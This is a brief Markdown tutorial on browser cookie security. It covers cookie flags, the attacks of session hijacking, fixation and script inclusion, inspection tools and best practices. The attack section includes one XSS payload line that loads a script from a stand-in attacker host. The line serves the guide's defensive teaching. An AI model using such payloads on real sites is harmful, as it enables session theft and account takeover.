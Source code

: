 
## 🍪 Introduction to Cookies

Cookies are small pieces of data stored in the browser, often used to maintain sessions, preferences, or tokens.

### 📌 Cookie Anatomy
Example:
```
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict
```

#### Key Attributes:
- **HttpOnly**: Prevents JavaScript access
- **Secure**: Transmits cookie only over HTTPS
- **SameSite**: Restricts cookie on cross-origin requests

---

## 💀 Cookie-Based Attacks

### 1. **Session Hijacking via XSS**
- Exploiting lack of `HttpOnly` to access and exfiltrate session cookies.

### 2. **Session Fixation**
- Forcing a user to authenticate using a known session ID.

### 3. **Cross-Site Script Inclusion**
- Using `<script src="attacker.com/malicious.js">` in XSS payloads to load full scripts.

---

## 🔍 Analyzing Cookie Security

### 🔧 Manual Inspection
- Use browser DevTools (Application > Cookies)
- Observe cookie flags and storage behavior

### 🛠️ Tools
- **Burp Suite** → Proxy → HTTP History
- **ZAP Cookie Scanner**
- `curl -I` to view headers directly

---

## 🛡️ Cookie Security Best Practices

- Always set `HttpOnly` and `Secure` flags
- Use `SameSite=Lax` or `Strict` for session cookies
- Use short-lived tokens and rotate session IDs on login
- Avoid storing sensitive data directly in cookies

---